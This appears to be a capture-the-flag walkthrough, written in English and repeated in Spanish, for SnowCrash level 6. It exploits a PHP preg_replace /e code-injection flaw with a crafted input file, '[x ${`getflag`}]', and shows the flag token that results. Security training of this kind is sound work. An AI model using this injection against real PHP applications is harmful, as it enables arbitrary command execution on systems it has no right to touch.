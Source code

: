### LEVEL06

- We have one .php script
    ```php
    level06@SnowCrash:~$ cat level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ```
- The function `y($m)` performs a substitution of "." by " x " and "@" by " y"
- The fucntion `x($y, $z)`
    ```php
    function x($y, $z) {
    $a = file_get_contents($y); // Reads the content of the file specified in $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Performs substitutions using a regular expression
    $a = preg_replace("/\[/", "(", $a); // Substitutes brackets `[` for parentheses `(`
    $a = preg_replace("/\]/", ")", $a); // Substitutes brackets `]` for parentheses `)`
    return $a; // Returns the modified content of the file.
    }
    ```
- The attack vector is in the line `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);` https://stackoverflow.com/questions/65024562/how-can-e-regex-expression-be-misused-on-a-php-code-snippet-running-on-my-ser/78247613#78247613
- The `/e` flag allows the regex to be executed as PHP code.
- We're going to attempt to inject `getflag`.
- We need a file for the script to read.
    1. It starts with `[x `
    1. Then the command we want to execute `... ${`getflag`}`
    1. And we close the bracket `]`
    ```bash
    echo '[x ${`getflag`}]' > /tmp/a
    ```
- We pass the file `/tmp/a` as a parameter to `level06`
    ```bash
    ./level06 /tmp/a
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
    ```

---

### LEVEL06

- Tenemos un script en .php
    ```php
    level06@SnowCrash:~$ cat level06.php
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
    ```
- La funcion `y($m)` hace una sustitición de "." por " x " y "@" por " y"
- La fucnion `x($y, $z)`
    ```php
    function x($y, $z) {
    $a = file_get_contents($y); // Lee el contenido del archivo especificado en $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Realiza sustituciones usando una expresión regular
    $a = preg_replace("/\[/", "(", $a); // Sustituye los corchetes `[` por paréntesis `(`
    $a = preg_replace("/\]/", ")", $a); // Sustituye los corchetes `]` por paréntesis `)`
    return $a; // Retorna el contenido modificado del archivo
    }
    ```
- El vector de ataque está en la línea `$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);` https://stackoverflow.com/questions/65024562/how-can-e-regex-expression-be-misused-on-a-php-code-snippet-running-on-my-ser/78247613#78247613
- El `/e` permite que se ejecute la regex como código php
- Vamos a intentar inyectar el `getflag`
- Necesitamos un archivo para que lo lea el script
    1. Que empiece por `[x `
    1. Luego el comando que queremos ejecutar `... ${`getflag`}`
    1. Y cerramos corchete `]`
    ```bash
    echo '[x ${`getflag`}]' > /tmp/a
    ```
- Le pasamos al `level06` como parametro el archivo `/tmp/a`
    ```bash
    ./level06 /tmp/a
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
    ```

